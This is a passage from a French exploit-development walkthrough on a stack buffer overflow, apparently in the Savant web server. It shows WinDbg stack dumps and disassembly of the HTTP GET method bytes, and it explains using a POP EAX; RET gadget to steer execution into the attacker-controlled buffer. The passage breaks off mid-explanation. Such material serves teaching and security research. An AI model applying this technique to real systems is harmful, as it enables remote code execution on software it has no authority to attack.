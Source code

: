On avait remarqué que le deuxième `DWORD` sur la pile au moment du crash pointe très proche du pointeur de pile (`ESP`). Il pointe toujours sur la méthode `HTTP` et les données qui suivent :

```powershell
0:004> dds @esp L2
0470ea2c  00414141 Savant+0x14141
0470ea30  0470ea84                                                          # DEUXIEME DWORD
#
0:004> dc poi(esp+4)
0470ea84  00544547 00000000 00000000 00000000  GET.............             # METHODE HTTP
0470ea94  00000000 00000000 4141412f 41414141  ......../AAAAAAA
0470eaa4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
```

Il faut donc trouver une séquence d'instruction qui nous permettrait de rediriger le flot d'exécution vers cette ce deuxième DWORD. On peut utiliser `POP R32; RET` :

- `POP R32` va enlever le premier `DWORD` de la pile ce qui va entrainer `ESP` a pointer vers l'adresse mémoire qui contient notre buffer qui commence avec la méthode `HTTP GET`
    * `R32` fait référence à un registre arbitraire de 32b
- `RET` devrait être placé au début de la méthode HTTP

Cela voudrait dire qu'il faudrait exécuter les instructions assembleur générées par les *opcodes* de la méthode `GET`. La méthode `GET` a généré les opcodes et les instructions ASM suivants :

```powershell
0:004> u poi(@esp+0x04)
0460ea84 47              inc     edi
0460ea85 45              inc     ebp
0460ea86 54              push    esp
0460ea87 0000            add     byte ptr [eax],al
0460ea89 0000            add     byte ptr [eax],al
0460ea8b 0000            add     byte ptr [eax],al
0460ea8d 0000            add     byte ptr [eax],al
0460ea8f 0000            add     byte ptr [eax],al
```

- Les instructions suivantes ne sont pas impactantes pour notre flot et n'entrainent pas de violation d'accès
    * `inc     edi` - `inc     ebp` et `push    esp`
    * Elles résultent des opcodes `544547`

- La dernière instruction `add     byte ptr [eax],al` est une addition qui vise a ajouter la valeur du registre `al` a la valeur sur laquelle `EAX` pointe
    * Peut être problématique, car assume que l'adresse sur laquelle `EAX` pointe est une adresse mémoire valide
    * Généré par l'opcode `00`

 Les instructions `POP R32;RET` vont rediriger le flot d'exécution vers notre buffer. L'instruction `POP` de la séquence nous permettrait de placer le DWORD sur lequel pointe `ESP` dans le registre de notre choix. Si on peut trouver une instruction tel que `POP EAX;RET` on va pouvoir garantir que `EAX` pointe vers une adresse existante et valide.

 Le premier *DWORD* dans la pile pointe vers un espace mémoire faisant partie de la pile et donc un espace mémoire valide :
